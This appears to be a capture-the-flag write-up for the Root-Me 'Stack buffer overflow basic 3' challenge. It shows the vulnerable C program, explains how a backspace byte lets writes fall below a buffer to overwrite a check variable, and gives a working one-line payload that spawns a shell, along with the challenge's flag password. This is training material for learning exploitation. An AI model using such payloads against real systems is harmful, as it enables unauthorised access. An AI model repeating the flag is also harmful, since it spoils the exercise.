 # ELF x86 - Stack buffer overflow basic 3
- Point: 25pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  10 April 2015
- Level: Medium <br><br>
![image](https://user-images.githubusercontent.com/48288606/143521039-c69b3f39-c52e-4551-b2fa-9facc7ca23cf.png)

## Write-up:
This challenge is not required to use **GDB**. Look at the code:

```
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```
We analyze the code, the variable **i** get 1 bytes of "stdin" and execute the below section, we only finish this challenge when we change the value of **check** to **0xbffffabc**<br>
**buffer** is declared before **check** and therefore **check** 's value can't be altered through upper overflow. <br><br>
![image](https://user-images.githubusercontent.com/48288606/143523511-fe54d69c-7f2b-4320-a4ba-667ce2f90df4.png)<br>

### Solution:
It's possible to make a change in **check** by lower overflow in **buffer** array. It's mean overwriting `buffer[-1]`, `buffer[-2]`,`buffer[-3]` and `buffer[-4]` revalues **check**.
With the program provided, we have 2 main functions:
- Make count increase or decrease by 1 (and print something that we don't care)
```
                case 0x08:
                  count--;
                  printf("\b");
                  break;
```

- Set **buffer** with **i** 's value
```
                default:
                  buffer[count] = i;
                  count++;
                  break;
```
So just enter **i** with **0x08** 4 times and assign the desired value **0xbffffabc** in little endian format.

Payload: `(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat) | ./ch16`

Password: Sm4shM3ify0uC4n


